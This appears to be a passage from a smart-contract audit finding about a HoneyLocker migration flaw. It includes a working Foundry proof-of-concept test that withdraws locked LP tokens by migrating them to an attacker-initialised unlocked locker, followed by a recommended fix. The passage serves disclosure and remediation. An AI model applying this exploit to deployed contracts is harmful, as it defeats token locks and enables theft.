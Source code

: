 Other attacks can be performed given a malicious HoneyQueen contract provided by the user.

### Proof of Concept

This test shows how some locked tokens can be withdrawn by migrating to an unlocked HoneyLocker.

- Copy the test to `test/HoneyLocker.t.sol`
- Run `forge test --mt test_migrationExploit`

```solidity
function test_migrationExploit() external prankAsTHJ {
    // LEGIT SETUP

    // deposit first some into contract
    uint256 balance = HONEYBERA_LP.balanceOf(THJ);
    HONEYBERA_LP.approve(address(honeyLocker), balance);
    honeyLocker.depositAndLock(address(HONEYBERA_LP), balance, expiration);

    // clone it
    HoneyLockerV2 honeyLockerV2 = new HoneyLockerV2();
    honeyLockerV2.initialize(THJ, address(honeyQueen), referral, false);

    // set hashcode in honeyqueen then attempt migration
    honeyQueen.setMigrationFlag(true, address(honeyLocker).codehash, address(honeyLockerV2).codehash);

    // CREATE A NEW LOCKER, INITIALIZE IT WITH MALICIOUS DATA AND MIGRATE TO IT
    HoneyLockerV2 maliciousLocker = new HoneyLockerV2();
    address maliciousHoneyQueen = makeAddr("MALICIOUS_HONEY_QUEEN");
    address anotherReferral = makeAddr("ANOTHER_REFERRAL");
    bool unlocked = true;
    maliciousLocker.initialize(THJ, address(maliciousHoneyQueen), anotherReferral, unlocked);

    honeyLocker.migrate(SLA.addresses(address(HONEYBERA_LP)), SLA.uint256s(balance), payable(address(maliciousLocker)));
    assertEq(HONEYBERA_LP.balanceOf(address(maliciousLocker)), balance);

    // The malicious owner got back their tokens
    maliciousLocker.withdrawLPToken(address(HONEYBERA_LP), balance);
    assertEq(HONEYBERA_LP.balanceOf(THJ), balance);
}
```

## Recommendations

One possible way to mitigate this is to add additional checks to verify that the `unlocked`, `HONEY_QUEEN`, and `referral` values are the same in both locks.

---
